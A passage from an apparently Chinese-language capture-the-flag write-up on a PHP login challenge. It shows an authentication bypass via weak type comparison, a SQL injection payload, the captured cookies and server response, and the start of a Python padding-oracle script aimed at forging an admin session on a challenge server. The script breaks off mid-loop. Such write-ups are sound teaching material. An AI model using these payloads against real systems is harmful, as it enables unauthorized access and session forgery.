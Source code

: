 ```
The decrypted string on success or FALSE on failure
```

解密成功返回解密字符串， 失败则返回`false`, 如果我们令解密失败返回`false`, 那么我们只需要`$pass=''`或`$pass='0'`, 即可利用弱类型比较通过用户认证。要让解密失败，只需令密文长度不满足分组长度要求即可。

payload如下：

```
username=-1' union select 1,1 %23
password=0
```

获取Cookie:

* `token=fxAXU2%2Fzw6PmPMm1TkAgRg%3D%3D`
* `ID=56mJDsCs%2BQQf%2B44j1et%2BrQ%3D%3D`

```
Set-Cookie: ID=56mJDsCs%2BQQf%2B44j1et%2BrQ%3D%3D
Set-Cookie: token=fxAXU2%2Fzw6PmPMm1TkAgRg%3D%3D
Content-Length: 155

you are in!</br><!doctype html>
<html>
<head><title>Login</title></head>
<body>Hello ~~~ ctfer! <div><a href="logout.php">Log out</a></div>
</body>
</html>
```

## Padding Oracle攻击位置cookie

认证成功过后，就是利用Padding Oracle攻击获取`$_SESSION["id"]`解密后的中间值value, 然后伪造IV, 使得 `IV XOR value = 'admin' + string(0x11）* 11`, 即可。

```python
# -*- coding: utf-8 -*-

import sys
import string
import base64
import requests


def str_xor(a, b):
    return ''.join([chr(ord(i) ^ ord(j)) for i, j in zip(a, b)])


base_url = "http://218.2.197.235:23737/index.php"

cookies = {
    'token': '',
    'PHPSESSID': '9uq1qjbeunb085pacngnmhupp3'
}

tmp_iv = '0' * 16
tmp_ivs = list(tmp_iv)

# 中间值 [123, 216, 172, 195, 38, 202, 124, 77, 207, 192, 18, 77, 136, 98, 31]
value = []

# 只能破解出value后15个字符
for flag in range(1, 16):
    for i in range(256):
        # brute
        tmp_ivs[15-len(value)] = chr(i)
```